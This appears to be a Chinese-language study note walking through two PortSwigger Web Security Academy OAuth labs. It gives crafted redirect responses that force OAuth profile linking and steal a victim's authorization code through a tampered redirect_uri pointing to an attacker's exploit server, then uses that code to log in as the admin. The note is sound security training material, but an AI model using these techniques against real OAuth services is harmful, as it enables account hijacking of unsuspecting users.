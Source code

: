 ```yaml
---
title: OAuth 2.0 authentication vulnerabilities
description: OAuth 2.0 authentication vulnerabilities
last_update:
  date: "2025-09-16T08:00:00+08:00"
---
```


<!-- 看到這 https://portswigger.net/web-security/oauth#oauth-authentication -->

## Lab: Forced OAuth profile linking

| Dimension | Description                                                                       |
| --------- | --------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/oauth#flawed-csrf-protection                 |
| Lab       | https://portswigger.net/web-security/oauth/lab-oauth-forced-oauth-profile-linking |

這題需要使用 Burp Suite 的 Intercept，因為綁定 Social Media 到 Client App 只有一次機會

看到 https://0a8e007d049cf42e80b012da009800ee.web-security-academy.net/oauth-linking?code=RhrOkIHwCimQsT0dm8U6LpbM-nKCeQH0zt9KBDosfU- 的時候，請把這個 Request Drop 掉

之後在 exploit-server 構造

```
HTTP/1.1 302 Moved Permanently
Content-Type: text/html; charset=utf-8
Location: https://0a8e007d049cf42e80b012da009800ee.web-security-academy.net/oauth-linking?code=RhrOkIHwCimQsT0dm8U6LpbM-nKCeQH0zt9KBDosfU-
```

受害者在 Client App 登入的情況點擊連結，就會把攻擊者的 Social Media 跟受害者的 Clieny App 帳號綁定

## Lab: OAuth account hijacking via redirect_uri

| Dimension | Description                                                                              |
| --------- | ---------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/oauth#leaking-authorization-codes-and-access-tokens |
| Lab       | https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri  |

在 exploit-server 構造

```
HTTP/1.1 302 Moved Permanently
Content-Type: text/html; charset=utf-8
Location: https://oauth-0a04008a03e7f89981d3ece602ad0020.oauth-server.net/auth?client_id=jrmnw2fbwsqv486hokfhp&redirect_uri=https://exploit-0a29002c03a3f832817ded3c01ea0003.exploit-server.net&response_type=code&scope=openid%20profile%20email
```

並且點選 "Deliver exploit to victim"，之後點選 "Access log"，就可以看到 `/?code=ADzZw2MustwUWOTkQRH8HQxFst6AR3yh9Lq46FhEWuj`

瀏覽器直接訪問 https://0a3c004103aff8dd8163eeb00095006c.web-security-academy.net/oauth-callback?code=ADzZw2MustwUWOTkQRH8HQxFst6AR3yh9Lq46FhEWuj ，就可以成功登入受害者 (admin) 的帳密～

## 參考資料

- https://portswigger.net/web-security/oauth
